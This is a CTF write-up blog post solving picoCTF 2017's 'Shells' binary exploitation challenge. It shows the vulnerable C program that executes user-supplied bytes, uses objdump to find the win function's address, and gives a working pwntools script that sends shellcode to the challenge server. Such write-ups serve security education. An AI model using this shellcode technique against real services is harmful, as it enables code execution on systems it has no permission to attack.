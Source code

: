 Title: PicoCTF 2017 Lvl2 Shells
Date: 2018-7-27 10:02
Modified: 2018-7-27 10:02
Category: ctf
Tags: ctf, pwnable, binaryexploitation
Slug: picoCTF_lvl2Shells
Authors: F3real
Summary: How to solve picoCTF Lvl2 Shells

picoCTF is another interesting CTF competition found at [https://2017.picoctf.com/](https://2017.picoctf.com)

We will take a look at one of binary exploitation challenges, Shells.

>How much can a couple bytes do? Use [shells](https://webshell2017.picoctf.com/static/8ee8b9f60eb42472a741748770af94ff/shells) ! [Source](https://webshell2017.picoctf.com/static/8ee8b9f60eb42472a741748770af94ff/shells.c). Connect on shell2017.picoctf.com:55049.

First lets, look at source code:

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
~~~

From source code we can see that we need to call `win` function. In `vuln` we see that program maps memory for user input and sets read/write/execute permission on it. After that it, in this strange looking line of code,

    void (*func)() = (void (*)())stuff;

casts input buffer to `void f()` and assigns it to function pointer. For example if we wanted to cast to something like `int f(char a, int b)` we would use `(int (*)(char,int))`.

First we need to find address of `win` function in shells binary, we can use **objdump** for this:

    objdump -d shells -M intel

![objdump disasembly of win function]({static}/images/2018_8_27_Shells.png){: .img-fluid .centerimage}

And we get function address `0x08048540`.

My first idea was just to pass function address but it didn’t work since we need actual assembly code. So lets write some shellcode using **pwntools**:

~~~python
from pwn import *
         
context.arch = 'i386'
context.terminal = 'tmux'

r = remote('shell2017.picoctf.com', 55049)
print r.recvuntil('Give me 10 bytes:')
payload = asm('mov eax, 0x08048540') + asm('call eax')
r.send(payload)
print r.recvall()
r.close()
~~~

We just set context so **pwntools** knows arch of the system, connect to server and send our shellcode:

    move eax, 0x08048540
    call eax

We call from register since in that case value is interpreted as absolute address offset instead of relative (if we just used `call 0x08048540`).

Also we could have just used push/ret shellcode.

    push 0x08048540
    ret

In any case running our python scripts gives us the flag :D
